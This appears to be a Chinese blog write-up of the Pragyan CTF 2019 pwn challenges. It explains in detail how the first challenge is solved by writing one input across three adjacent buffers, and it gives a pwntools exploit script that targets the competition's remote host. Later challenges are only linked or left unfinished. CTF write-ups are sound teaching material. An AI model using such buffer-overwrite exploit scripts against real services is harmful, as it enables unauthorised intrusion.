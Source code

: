 ```yaml
---
title: pragyan ctf2019 pwn部分wp
date: 2019-03-18 12:50:54
tags:
---
```

### **第一题**
源程序：[challenge1](https://github.com/CP32/pragyan-ctf19/blob/master/pragyan%20ctf19/feed%20me-pwn/challenge1)
先丢进IDA，F5，分析运行过程。
程序先生成了3个随机数并输出，然后需要输入一个字符串s：
![img](https://github.com/CP32/pragyan-ctf19/blob/master/pragyan%20ctf19/feed%20me-pwn/0.png?raw=true)
<!--more-->
之后验证s中是否只包含数字字符和负号：
![img](https://github.com/CP32/pragyan-ctf19/blob/master/pragyan%20ctf19/feed%20me-pwn/1.png?raw=true)
然后把s,nptr,v15中的字符串使用atoi()转换成整数v9,v10,v11，并满足3个if中的条件即可得到flag：
![img](https://github.com/CP32/pragyan-ctf19/blob/master/pragyan%20ctf19/feed%20me-pwn/2.png?raw=true)
虽然我们只输入了字符串s，但观察发现s,nptr,v15是相连的，可以通过写s写穿到其他两个变量中，3个变量大小都为10字节：
![img](https://github.com/CP32/pragyan-ctf19/blob/master/pragyan%20ctf19/feed%20me-pwn/3.png?raw=true)
接下来就是解方程，求出v9,v10,v11，然后填到s中并传输。
这里有个坑，由于需要通过s直接写到nptr,v15，这说明3个变量实际上是没有‘\0’这种分隔符的，一旦调用atoi(s)，就会把后面的数据也读取到s中。因此要考虑怎么分隔3个变量。既然它限制了输入只能是数字字符和负号，数字显然不能分隔，这样只能是用负号把剩下的空间填充。
exp:
```python
from pwn import *

def change(num):
	num=str(num)
	return num+(10-len(num))*'-'

#io=process("./challenge1")
io=remote("159.89.166.12",9800)

io.recvuntil(":)\n")
x=io.recvuntil(";")
x=x[0:len(x)-1]
y=io.recvuntil(";")
y=y[0:len(y)-1]
z=io.recvuntil(";")
z=z[0:len(z)-1]

x=int(x)
y=int(y)
z=int(z)

a=(z-y+x)/2
b=(x+y-z)/2
c=(y-x+z)/2

a=change(a)
b=change(b)
c=change(c)

io.sendline(a+b+c)
io.interactive()
```
得到flag：
![img](https://github.com/CP32/pragyan-ctf19/blob/master/pragyan%20ctf19/feed%20me-pwn/4.png?raw=true)

### **第二题**
源程序：[secure_secrets](https://github.com/CP32/pragyan-ctf19/blob/master/pragyan%20ctf19/secret%20keeper/secure_secrets)

> [参考WP](https://naivenom.tistory.com/18)
WP晚点写

### **第三题**
源程序：[armoury](https://github.com/CP32/pragyan-ctf19/blob/master/pragyan%20ctf19/armoury/armoury)
